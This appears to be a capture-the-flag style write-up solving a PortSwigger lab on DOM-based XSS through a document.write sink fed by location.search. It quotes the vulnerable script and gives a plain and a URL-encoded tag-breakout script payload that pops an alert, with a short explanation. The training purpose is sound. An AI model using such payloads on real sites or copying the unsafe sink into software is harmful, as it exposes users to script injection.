


> // platform -> PortSwigger
>
> ## Target -> Lab: DOM XSS in document.write sink using source location.search

> ---
>
> **Where is Vulnerability: in search parameter**
> **Goal: Simple alert**
>
> ---

### Steps:

1. Open the lab in your browser.
2. In the search field, enter the random string `test` and click the search button. intercept the request using Burp Suite.
3. then modify the search parameter to the following payload: 

```javascript

// vulnerable code
<script>
function trackSearch(query) {
document.write('');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
trackSearch(query);
}
</script>

 `"><script>alert(1)</script>` // block src attribute and inject script tag
// with encoding payload is successfully executed
%22%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
```

4. Forward the request and you should see an alert box pop up with the number 1, indicating that the DOM XSS vulnerability has been successfully exploited.
5. Solve the lab. 

---

> payload explained:

```bash
"> block the current HTML tag
<script>alert(1)</script> injects a script tag that executes an alert with the number
1
```
